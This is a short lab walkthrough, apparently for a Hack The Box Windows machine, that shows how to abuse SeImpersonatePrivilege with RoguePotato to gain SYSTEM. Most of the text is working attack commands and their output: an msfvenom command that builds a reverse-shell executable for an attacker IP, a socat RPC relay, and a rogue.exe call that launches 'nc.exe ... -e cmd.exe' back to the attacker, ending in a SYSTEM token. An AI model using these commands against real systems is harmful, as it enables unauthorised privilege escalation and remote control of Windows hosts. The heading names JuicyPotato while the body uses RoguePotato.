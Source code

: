 ## how to exploit SeImpersonatePrivilege using a juicePotato binary

with roguepotato binary we can use get with this approach here, just make this binary is present on the target machine and a location that is writable oky hackerB0y.

## requirements 
1. we need to generate a binary on our machine with msfvenom
```
command: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe
```
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe                           
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

2.  we need to run this command on our machine

    **command**: sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
[sudo] password for alienx: 
2024/04/13 09:09:26 socat[32866] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:09:26 socat[32867] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:10:21 socat[32870] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:11:28 socat[32948] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer

```

3.  we need to run this command on our target machine
    command: rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999  
```
C:\Users\Public\desktop>rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                      
rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                                              
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!                                      
[+] Got SYSTEM Token!!!                                    
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe
[+] RoguePotato gave you the SYSTEM powerz :D

```
